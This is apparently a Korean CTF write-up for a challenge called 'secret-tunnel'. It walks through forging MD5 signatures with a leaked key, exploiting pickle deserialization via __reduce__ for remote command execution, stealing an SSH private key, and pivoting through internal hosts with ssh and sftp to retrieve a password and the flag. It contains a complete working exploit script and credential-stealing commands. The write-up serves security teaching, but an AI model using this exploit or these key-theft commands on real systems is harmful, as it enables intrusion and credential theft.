





# secret-tunnel

```python
SECRET_KEY = "very_secret_key_do_not_guess"

def verify_signature(data, signature):
    return hashlib.md5((data + SECRET_KEY).encode()).hexdigest() == signature

@app.route('/process', methods=['POST'])
def process_data():
    data = request.form.get('data')
    signature = request.form.get('signature')

    if not verify_signature(data, signature):
        return "Invalid signature", 400
```

app.py를 살펴보았을 때 SECRET_KEY가 유출되어 있었고 서명이 md5로 되어있어 임의의 요청에 유효한 서명을 붙여 우회할 수 있다. 검증이 b64decode 앞에 있으므로 signature = md5(base64문자열 + SECRET_KEY)로 만들면 통과할 것이다.

```python
decoded = base64.b64decode(data)
if b'pickle' in decoded.lower(): 
    return "Suspicious input detected", 400

obj = pickle.loads(decoded) 

return f"Processed data: {obj}"  
```

pickle을 필터링 하고 있으나 `__reduce__` 로 os를 참조하는 것은 필터링하고 있지 않기 때문에 여전히 RCE 취약점이 남아있음을 알 수 있다. 이를 이용해 아래와 같이 exploit 코드를 짤 수 있다.

```python
#exploit.py
import base64, hashlib, pickle, sys, requests

URL = "http://edu.arang.kr:8090/process"
SECRET_KEY = "very_secret_key_do_not_guess"

class RCE:
    def __init__(self, cmd):
        self.cmd = cmd

    def __reduce__(self):
        return (eval, ("__import__('os').popen(%r).read()" % self.cmd,))

def run(cmd):
    payload = pickle.dumps(RCE(cmd), protocol=2)
    assert b"pickle" not in payload.lower(), "filter hit"
    data = base64.b64encode(payload).decode()
    sig = hashlib.md5((data + SECRET_KEY).encode()).hexdigest()
    r = requests.post(URL, data={"data": data, "signature": sig}, timeout=30)
    body = r.text
    prefix = "Processed data: "
    return body[len(prefix):] if body.startswith(prefix) else "[%d] %s" % (r.status_code, body[:500])

if __name__ == "__main__":
    print(run(" ".join(sys.argv[1:]) or "id"))
```



id 명령어가 정상적으로 실행된 것을 볼 수 있다.

```bash
scp -i /home/appuser/.ssh/id_rsa ctfuser@intserver:$SRC_FILE $DEST_FILE
```

`scp_transfer.sh`가 다음 홉으로 가는 키를 알려준다. 인터넷에 노출된 웹 서버에 내부망 접속용 개인키가 그대로 놓여 있어 앱이 뚫리면 내부망도 같이 뚫리는 구조다.

```bash
python3 exploit.py 'base64 -w0 /home/appuser/.ssh/id_rsa' | base64 -d > int_key
```

RCE를 이용해 키를 확인하였다.



```bash
eunho@eunho:~$ ssh-keygen -lf int_key
2048 SHA256:OkL0kG71ieC3zFNhdvta1qjSiVy7Crv2nnTb3iLDaVI appuser@extserver (RSA)
```

키 내용을 확인할 수 있고 이를 이용해 extserver SSH에 접속할 수 있다.

```bash
ssh -i int_key -p 2222 appuser@edu.arang.kr
```

```bash

```

flagserver에 접근하려면 비밀번호가 필요하다는 사실을 확인 할 수 있다.

```bash
4e76d37674c0:~$ ssh -o StrictHostKeyChecking=no -J ctfuser@intserver flaguser@flagserver
flaguser@flagserver's password:
```

이를 위해 extserver 에서 intserver에 SSH로 접근을 시도 했지만 막혀있었다.



```bash
sftp -i ~/.ssh/id_rsa -o StrictHostKeyChecking=no ctfuser@intserver:/home/ctfuser/flagserver_password.tx
t pw.txt
```



SFTP를 이용해 우회하여 flagserver의 비밀번호(`secretpassword1!`)를 획득 하였고 flagserver의 ssh에 접근할 수 있게 되었다.



cat 명령어를 이용해 flag를 획득하였다.

flag{d4f8482fa51b915c0754}
